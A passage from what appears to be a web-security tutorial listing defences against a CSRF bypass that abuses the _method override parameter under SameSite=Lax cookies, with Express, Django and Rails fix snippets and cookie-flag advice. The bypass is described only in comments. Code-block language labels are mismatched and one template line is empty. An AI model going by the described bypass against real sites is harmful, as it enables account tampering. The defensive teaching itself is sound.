app.use(methodOverride(function (req) {
    // Only allow override if original method is POST
    if (req.method === 'POST' && req.body && req.body._method) {
        const method = req.body._method;
        delete req.body._method;
        return method;
    }
    // Ignore _method in query string entirely
    return null;
}));

// Why this matters:
// └── GET + _method=POST via query string: BLOCKED ✓
// └── POST + _method=PUT via body: still works ✓
// └── Legitimate use case preserved ✓
// └── Attack vector eliminated ✓

// Rails: config/initializers/method_override.rb
# ✅ SECURE - Rails disables GET method override by default
# Only POST body is checked for _method, never query string
# But verify your version hasn't been misconfigured!
```

---

### **Fix 3: Add CSRF Tokens (Defense in Depth)**

```js
# ✅ SECURE - CSRF tokens make SameSite bypass irrelevant

# Django example
from django.views.decorators.csrf import csrf_protect

@csrf_protect
def change_email(request):
    if request.method == 'POST':
        # Django validates session-bound CSRF token
        # Even if _method bypass works:
        # → Attacker still needs valid CSRF token!
        # → Cannot forge cross-origin → Attack blocked ✓
        
        request.user.email = request.POST['email']
        request.user.save()
        return redirect('account')

# Template includes token:
<form method="POST">
    
    <input type="email" name="email">
    <button>Update</button>
</form>

# Defense in depth result:
# ├── SameSite=Strict: blocks cross-site requests ✓
# ├── CSRF token: blocks even if SameSite bypassed ✓
# └── Both required → two independent defences! 🛡️
```

---

### **Fix 4: Validate HTTP Method Server-Side**

```r
// ✅ SECURE - Strictly enforce actual HTTP method

// Reject any attempt to override method via parameter
app.post('/change-email', (req, res) => {
    // Verify actual transport method is POST
    // (before any override middleware runs)
    
    if (req._originalMethod && req._originalMethod !== 'POST') {
        return res.status(405).send('Method not allowed');
    }
    
    // Reject if _method came from query string (not POST body)
    if (req.query._method) {
        return res.status(400).send('Invalid request');
    }
    
    updateEmail(req.body.email);
    res.redirect('/account');
});

// Or: register route BEFORE method-override middleware
// Specific routes that should not allow override:
const router = express.Router();
router.post('/change-email', changeEmailHandler);
app.use('/my-account', router);
// Apply method-override AFTER specific sensitive routes
```

---

### **Fix 5: Validate Origin Header**

```r
// ✅ SECURE - Validate Origin on all state-changing requests

function validateOrigin(req, res, next) {
    const origin = req.headers['origin'];
    const host = req.headers['host'];
    
    // For state-changing requests, validate origin
    if (['POST', 'PUT', 'PATCH', 'DELETE'].includes(req.method)) {
        if (!origin) {
            // No Origin header — could be direct request
            // Check Referer as fallback
            const referer = req.headers['referer'];
            if (referer) {
                const refererHost = new URL(referer).host;
                if (refererHost !== host) {
                    return res.status(403).send('Invalid origin');
                }
            }
        } else {
            const originHost = new URL(origin).host;
            if (originHost !== host) {
                return res.status(403).send('Cross-origin request blocked');
            }
        }
    }
    
    next();
}

app.use(validateOrigin);

// Limitation:
// └── GET requests don't include Origin header
// └── _method override via GET bypasses this check! ⚠️
// └── Must combine with method override restriction! ✓
```

---

### **Fix 6: Framework-Level Configuration (Rails)**

```js
# ✅ SECURE - Rails configuration

# config/application.rb
config.action_dispatch.default_headers = {
    'X-Frame-Options' => 'SAMEORIGIN',
    'X-XSS-Protection' => '1; mode=block',
    'X-Content-Type-Options' => 'nosniff'
}

# ApplicationController
class ApplicationController < ActionController::Base
    # Rails includes CSRF protection by default
    protect_from_forgery with: :exception
    
    # Ensure session cookie is Strict
    # config/initializers/session_store.rb
    # Rails.application.config.session_store :cookie_store,
    #   key: '_app_session',
    #   same_site: :strict,   # ← Explicit Strict!
    #   secure: Rails.env.production?
end

# What Rails protect_from_forgery does:
# ├── Validates CSRF token on all non-GET requests ✓
# ├── Token tied to session ✓
# └── Method override from POST body: CSRF token still required ✓

# Gap: if _method override allowed via GET query string
# → CSRF token bypassed (GET not protected by default)
# → Must also restrict query-string override! ✓
```

---

### **Fix 7: Require HTTPS + Secure + SameSite=Strict Together**

```
✅ SECURE - Defense in depth cookie configuration

Best practice cookie security flags:

Set-Cookie: session=TOKEN;
    Secure;          ← HTTPS only
    HttpOnly;        ← No JS access
    SameSite=Strict; ← No cross-site sending at all
    Path=/;          ← Applies to entire site
    Max-Age=3600     ← 1 hour session

Each flag's purpose:
├── Secure:          Prevents cookie theft over HTTP
├── HttpOnly:        Prevents cookie theft via XSS
├── SameSite=Strict: Prevents CSRF entirely
├── Path:            Scopes cookie to app
└── Max-Age:         Limits exposure window

Why Strict beats Lax for session cookies:
├── Lax allows GET navigations → _method bypass exists ⚠️
└── Strict blocks ALL cross-site requests → no bypass possible ✓

Trade-off:
└── Strict breaks OAuth login flows and external links
    └── Mitigation: use separate short-lived tokens for those flows ✓
```

---